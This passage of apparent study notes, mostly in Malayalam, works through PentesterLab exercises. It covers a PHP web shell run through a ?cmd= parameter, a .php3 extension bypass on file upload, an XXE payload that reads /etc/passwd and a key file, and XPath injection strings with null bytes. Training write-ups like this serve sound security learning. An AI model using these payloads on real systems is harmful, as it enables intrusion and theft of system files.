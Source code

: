 ```
**Warning**: system(): Cannot execute a blank command in **/var/www/upload/php.php** on line **2**
```

enn kanikunu.karnam url il cmd enna parameter illa.namude script il nokiyal manasilakum
-->so url il ?cmd=id  enn koduthla id command run aakum ie,
->http://ptl-d21a1dbc-9275dfab.libcurl.so/upload/php.php?cmd=id
-->so ithupole namuk lab complete chyam ok

# File Upload 02
-->ividem nerthe pole thane aan.but ivide namal .php file upload chyumbol "NO PHP" enn error kanikunu
-->so oru php file ittal block chyum.so aa /POST request eduth repeater il iduka.enit file.php ennath mati file.pHp enn koduth send chyumbol "NO PHP" enn error kanikunila.so ini namal aa pathilek pokumbol php code execute aakunila.pakaram aa code render aakukayan chyunath.
-->so nama file.php ennath mati file.php3  enn kodukunu.so ipozhum NO PHP enn error kanikunila.so ini namal aa pathilek pokumbol namuk namude php code exeute aakunath kanam.
-->To bypass this restriction, you can simply rename the file to `.php3` for example (since the server will load file with this extension as PHP file).
-->so ini url il ?cmd=id  ennadikumbo command run chyunath kanam ok
-->ini lab complete aakam ok

============================================================

# XML Attacks 01
-->lab open aakuka.apol ee site il namal load aakum 
->`http://ptl-f2f451c2-c80e1507.libcurl.so/?xml=<test>hacker</test>`
-->so ivide aan namal xml attacke chyunath
-->so namal url il xml try chyam :
->`http://ptl-f2f451c2-c80e1507.libcurl.so/?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>hacker</test>`
-->ingane kodukuka.apol xml aakila.karnam namal x in place chythitila.so `<test>hacker</test>`  enns sthalath `&x;`  enn kodukanam.ennale /etc/passwd work aaku ok
-->so final payload :
->`http://ptl-f2f451c2-c80e1507.libcurl.so/?xml=!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>%26x;</test>```
-->NOTE : oru karyam sredhikuka.& enna symbol epozhum url encode chyanam.illengil server vijairkum ath seperator aanen ok
-->so ini lab theerkan file:///etc/passwd mati file:///pentesterlab.key enn koduthal mathi ok

# XML Attacks 02
-->XPath is a query language, which selects nodes from an XML document. Imagine the XML document as a database, and XPath as an SQL query. If you can manipulate the query, you will be able to retrieve elements to which you normally should not have access.
-->Just like SQL injection, XPath allows you to do boolean logic, and you can try:
-   `' and '1'='1` and you should get the same result.
-   `' or '1'='0` and you should get the same result.
-   `' and '1'='0` and you should not get any result.
-   `' or '1'='1` and you should get all results.
-->To comment out the rest of the XPath expression, you can use a NULL BYTE (which you will need to encode as %00)
-->so lab open chyuka.enit athile paramters il single qoute iduka.just like sqli.
-->apol sql error in pakaram xml error kanikum.so namuk oru square bracket kodukam.athupole baki code comment chyan null byte um kodukam.
-->so `?name=hacker']%00&password=pentesterlab`  ignae varum injection.ipol error kanikunila
-->now we need to look at xpath like a tree :
->`?name=hacker']/parent::*/child::node()%00&password=pentesterlab` ingnae kodukumbol enthokeyo kanikunund.athin shesham ivan true statement vech entho chyunund
->`?name=hacker' or 1=1]/parent::*/child::node()%00&password=pentesterlab`
-->ipol namuk key kitum